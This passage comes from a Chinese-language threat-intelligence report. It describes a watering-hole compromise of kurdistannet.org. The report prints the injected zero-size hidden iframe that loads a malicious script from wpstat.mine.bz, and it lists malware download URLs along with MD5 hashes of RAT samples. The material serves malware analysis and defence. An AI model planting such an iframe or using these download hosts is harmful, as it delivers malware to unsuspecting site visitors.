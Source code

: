 被挂马网站

kurdistannet.org
<td width="130" valign="top">被植入的恶意代码</td><td width="438" valign="top">&lt;iframe   name="statModules" width="0" height="0"   marginwidth="0" marginheight="0" scrolling="no"   border="0" frameborder="0"   src='http://wpstat.mine.bz/e1/stat1.php'&gt;</td>

&lt;iframe   name="statModules" width="0" height="0"   marginwidth="0" marginheight="0" scrolling="no"   border="0" frameborder="0"   src='http://wpstat.mine.bz/e1/stat1.php'&gt;
<td width="130" valign="top">挂马恶意链接</td><td width="438" valign="top">hXXp://wpstat.mine.bz/e1/stat1.php</td>

hXXp://wpstat.mine.bz/e1/stat1.php
<td width="130" valign="top">Sucuri检测结果</td><td width="438" valign="top">https://sitecheck.sucuri.net/results/kurdistannet.org</td>

https://sitecheck.sucuri.net/results/kurdistannet.org
<td width="130" valign="top">Sucuri检测结果(谷歌快照)</td><td width="438" valign="top">https://webcache.googleusercontent.com/search?q=cache:lLMBPzClHwkJ:https://sitecheck.sucuri.net/results/kurdistannet.org+&amp;cd=7&amp;hl=zh-CN&amp;ct=clnk&amp;gl=tw</td>

(谷歌快照)
<td width="130" valign="top">谷歌快照时间</td><td width="438" valign="top">2016年1月24日 04:25:17 GMT</td>

2016年1月24日 04:25:17 GMT

上表是对kurdistannet网站被挂马的具体记录,通过sucuri谷歌快照的时间,可以确定至少在2016年1月24日kurdistannet网站就已经被植入了恶意链接。

[![](https://p4.ssl.qhimg.com/t01c0bb392eab1c58c2.png)](https://p4.ssl.qhimg.com/t01c0bb392eab1c58c2.png)

图 5 sucuri对kurdistannet网站的检测结果

从以下两个表中,可以看出母体文件有来自URL的情况,从URL最终指向的文件扩展名来看,应该不会是诱导用户点击并执行这类URL。而这类URL有可能是其他downloader木马请求下载或者由漏洞文档、水坑网站在触发漏洞成功后下载执行。

来源URL

http://wep.soon.it/doc/v28n1f1.tmp

http://www.bestupdateserver.com/infy/update.php?cn=nlzoetws011185&amp;ver=6.2&amp;u=3%2f12%2f2015%20%2023%3a50%3a38
<td width="102" valign="top">下载的RAT</td><td width="466" valign="top">1a918a850892c2ca5480702c64c3454c</td>

1a918a850892c2ca5480702c64c3454c

表 1样本来源1

来源URL

http://best.short-name.com/b35f1.tmp
<td width="102" valign="top">下载的RAT</td><td width="466" valign="top">6bc1aea97e7b420b0993eff794ed2aeb</td>

6bc1aea97e7b420b0993eff794ed2aeb

表 2样本来源2

这里主要指对二进制可执行EXE文件,主要从文件名、文件扩展名和文件图标等方面进行伪装。
